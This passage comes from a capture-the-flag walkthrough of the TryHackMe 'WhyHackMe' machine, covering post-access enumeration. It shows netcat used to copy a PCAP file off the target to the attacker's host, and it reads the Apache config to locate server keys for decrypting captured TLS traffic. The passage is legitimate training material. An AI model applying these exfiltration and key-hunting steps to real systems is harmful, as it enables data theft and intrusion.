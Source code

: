 ```bash
```

The Nmap scan identifies that the port is used by the Apache2 web server. Fuzzing this website doesn't give something interesting so let's continue our enumeration. We can see that the `/opt` directory contains some interesting files i.e. one message and one PCAP file.
```bash
jack@ubuntu:/opt$ ls -l
total 32
-rw-r--r-- 1 root root 27247 Aug 16  2023 capture.pcap
-rw-r--r-- 1 root root   388 Aug 16  2023 urgent.txt
jack@ubuntu:/opt$ cat urgent.txt 
Hey guys, after the hack some files have been placed in /usr/lib/cgi-bin/ and when I try to remove them, they wont, even though I am root. Please go through the pcap file in /opt and help me fix the server. And I temporarily blocked the attackers access to the backdoor by using iptables rules. The cleanup of the server is still incomplete I need to start by deleting these files first.
```

The message says the port we scanned above was used by attackers to access their backdoor and that the PCAP file. Also, it says that the server was not completely cleaned. This means that the backdoor used by the attackers might still be present. Let's download the PCAP file on our attack host for further analyses using Wireshark.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ nc -lvnp 8000 > capture.pcap                      
listening on [any] 8000 ...
```

```bash
jack@ubuntu:/opt$ nc -q 0 10.21.68.180 8000 < capture.pcap
```

When we open the file using Wireshark, we will notice that all the traffic is encrypted using TLSv1.2.
![](/assets/img/posts/walthrough/tryhackme/2024-10-26-whyhackme/wireshare-1.png)

Traffic encrypted using this version of TLS can be decrypted using serverside keys. We can see the location of this key in  the `/etc/apache2/sites-enabled/000-default.conf` file.
```bash
jack@ubuntu:/opt$ cat /etc/apache2/sites-enabled/000-default.conf    
<SNIP>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
Listen 41312
<VirtualHost *:41312>
        ServerName www.example.com
        ServerAdmin webmaster@localhost
        #ErrorLog ${APACHE_LOG_DIR}/error.log
        #CustomLog ${APACHE_LOG_DIR}/access.log combined
        ErrorLog /dev/null
        SSLEngine on
        SSLCipherSuite AES256-SHA
        SSLProtocol -all +TLSv1.2
        SSLCertificateFile /etc/apache2/certs/apache-certificate.crt
```